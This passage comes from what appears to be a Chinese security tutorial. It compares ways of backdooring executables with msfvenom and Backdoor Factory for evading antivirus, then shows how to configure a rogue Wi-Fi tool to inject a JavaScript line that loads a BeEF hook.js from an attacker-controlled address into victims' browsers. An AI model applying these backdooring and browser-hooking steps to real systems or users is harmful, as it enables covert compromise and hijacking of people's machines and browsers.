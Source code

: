 使用自定的SHELLCODE：

```
提醒一点，最好使用ExitFunction=Thread不然就会杀掉父进程，这样BDF就没用了

```

最后，对比一下文中所述的三种挂后门方式：

MSFVENOM –k –t exe

[![](http://static.wooyun.org//drops/20150811/2015081103412215141.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/vs001.png)

MSFVENOM –t exe

[![](http://static.wooyun.org//drops/20150811/2015081103412355213.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/vs002.png)

BDF Cave jumping

[![](http://static.wooyun.org//drops/20150811/2015081103412315115.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/vs003.png)

然后对比一下32位挂后门和64位挂后门的效果：

[![](http://static.wooyun.org//drops/20150811/2015081103412394651.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/vs004.png)

[![](http://static.wooyun.org//drops/20150811/2015081103412368243.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/vs005.png)

因此，BDF在自动化挂后门流程的同时，也实现了CTP方式挂后门的功能，这也就是之前手动选择Code Cave的原因，根据测试结果看来，Cave跳转方式过杀软的效果最好，而64位后门比32位后门的隐蔽性更高

0x04 WooyunWifi+beEF+Metasploit测试流程
===================================

* * *

WooyunWifi的WEB配置：

在WooyunWifi的WEB界面中点击Settings（高级设置）按钮，在jsInject选项中填写要注入的JS语句，例：

```
document.write("<script language='javascript' src='http://192.168.1.163:3000/hook.js'></script>");

```

[![](http://static.wooyun.org//drops/20150811/2015081103412369617.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/beefconfig.png)

我们注入的是JS语句，请不要混淆“JS语句”、“HTML标签”和“JS文件”的区别，在beEF中会自动生成hook.js并提示其URL地址，我们要想让beEF成功hook到目标浏览器，就要在目标浏览器上对应页面执行hook.js，因此我们使用JS语法document.write写入一个html标签，然后由标签来在当前页面加载hook.js（js执行的页面对beEF有重大影响，建议以这种方式在当前页面进行hook，您也可以尝试其他方式）

请先启动beef，Kali linux默认情况下集成了beEF，可以通过beef-xss命令启动，或者在快捷启动栏里也可以找到启动器

hook成功后，将在beef“Hooked Browsers”里面弹出上线的浏览器，在这里可以看到详细的浏览器信息

[![](http://static.wooyun.org//drops/20150811/2015081103412380701.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/beefpanel.png)
